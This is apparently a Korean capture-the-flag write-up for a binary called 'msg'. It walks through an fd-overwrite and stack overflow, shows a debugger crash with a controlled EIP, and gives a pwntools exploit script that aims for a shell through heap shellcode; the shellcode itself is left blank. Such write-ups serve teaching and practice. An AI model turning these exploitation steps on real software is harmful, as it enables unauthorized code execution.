

# MSG Write-up

### 취약점1



취약점이 발생하는 함수입니다. 사용자의 입력으로 fd를 조작할 수 있습니다. (코드를 분석해보면 알겠지만 파일을 처음 4바이트는 메시지의 길이를 의미하게 됩니다.)

### 취약점2

```
root@inj3ct:~/tmp/sctf# python -c 'print "A"*276+"B"*4' > out

pwndbg> r
Starting program: /root/tmp/sctf/msg_patched 
1. New message
2. Change message
3. Load message
4. Exit
3
Input msg ID : 
out
msg: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB


Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[──────────────────────────────────REGISTERS───────────────────────────────────]
*EAX  0xffffffff
 EBX  0x0
*ECX  0xf7ffb940 ◂— 0xf7ffb940
*EDX  0xffffffc0
*EDI  0xf7fc8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*ESI  0xf7fc8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*EBP  0x41414141 ('AAAA')
*ESP  0xffffd650 ◂— 0xa /* '\n' */
*EIP  0x42424242 ('BBBB')
[────────────────────────────────────DISASM────────────────────────────────────]
Invalid address 0x42424242
```

위처럼 오버플로우 버그가 발생합니다.

### 공격 시나리오

1. dummy를 252(0x108-0xC) byte만큼 넣은 후, fd 값을 2(stderr)로 덮어 씌운다.
2. 뒤에서 stderr이 close되서 다음부터 파일을 열게 되면 fd의 값은 2부터 쌓인다.
3. s에 특수문자가 포함되어 있다면 새롭게 열린 파일에 "This is ~~~ : [input]\n"이 쓰인다. 
4. 분석해보면 알겠지만 이 프로그램에서 파일을 읽고 쓰는 데에 있어서 파일의 처음 4바이트는 데이터의 길이를 알려주는 포멧이다. fd에 2를 넣은 다음 다시 newMsg함수로 가면 파일이 열리는데 dummy 값으로 특수문자를 넣어버리면 그 파일에 'This is ~~~'이 쓰인다.
5. loadMsg 함수로 넘어가면 EIP가 파일에 쓰여진 데이터 중 일부로 바뀐다.
6. 이제 쉘을 어떻게 따느냐가 문제이다. NX가 걸려있어서 스택에 쉘코드를 올리는 것은 불가능하다. 또 데이터를 쓸 수 있는 길이가 제한되어 있기 때문에 ROP가 힘들다. 그렇다면 heap에 쉘코드를 올려야하는데 stdin을 통해 넣을 수 있을 듯하다. 
7. loadMsg가 실행되기 전, 즉, 4번 다음에 newMsg 함수로 가서 stdin에 데이터를 써보자
8. 1, 2, 3번을 이용하여 다음과 같이 EXPLOIT 코드를 작성한다.

```python
from pwn import *

p = process("./msg")
print p.recv()
p.sendline("1")
print p.recv()
p.sendline("a"*252+p32(0x00000002))
print p.recv()


p.sendline("1")
print p.recvuntil("Msg ID : ")
msgid = p.recvline()
print msgid
print p.recv()
ret = p32(0x08048aa4)
p.sendline(" !"+"a"*(276-2-len('This string is invalid string... : '))+ret)
# return to sub_8048aa4() ; maybe 'msg : ' is printed
print p.recv()

shellcode = ""
p.sendline("1")
print p.recv()
p.sendline("a"*99 + "\x00" + shellcode + "b"*(149-len(shellcode)) + "\r3\r" +p32(0x00000000))
print p.recv()

p.sendline("3")
print p.recv()
p.sendline(msgid)
p.interactive()
```

